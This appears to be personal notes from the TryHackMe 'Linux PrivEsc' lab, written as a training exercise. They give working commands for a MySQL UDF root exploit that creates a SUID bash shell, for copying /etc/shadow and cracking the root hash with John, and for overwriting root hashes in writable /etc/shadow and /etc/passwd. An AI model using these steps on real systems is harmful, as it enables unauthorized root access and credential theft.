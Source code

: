 # Overview
https://tryhackme.com/room/linuxprivesc

```
export IP=10.10.191.59
```
# [Service Exploits](setuid-exploit)
The MySQL service is running as root and the "root" user for the service does not have a password assigned.
We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands
as root via the MySQL service.

1. Change into the /home/user/tools/mysql-udf directory:
```
cd /home/user/tools/mysql-udf
```
1. Compile the raptor\_udf2.c exploit code using the following commands:
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
1. Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
1. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
1. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
1. Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
1. Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```

# John
```
scp user@$IP:/etc/shadow hash.txt
vagrant@ubuntu1804:~/repos/ctfs/thm/linux-priv-esc$ /opt/john/run/john --wordlist=/opt/wordlists/rockyou.txt root.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:00 DONE (2020-12-15 02:20) 2.083g/s 3200p/s 3200c/s 3200C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# /etc/shadow hash is editable
```
user@debian:~/tools/mysql-udf$ mkpasswd -m sha-512 newpasswordhere
$6$zcsibADe2$5JBJvfuuLdM2/0ggQxfpWwpQ0S/0vcx2.eoUTNKbBM.MncgN3e12fQUMRMbT9Sukpe04R3bviwfMvgJ5Nh6L0/
```
Paste that output into the root user hash field

# /etc/passwd hash is editable
```
root@debian:/home/user/tools/mysql-udf# ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
root@debian:/home/user/tools/mysql-udf# openssl passwd newpasswordhere
Warning: truncating password to 8 characters
LHD3iy7IoLObw
```
Replace the 'x' in the root line
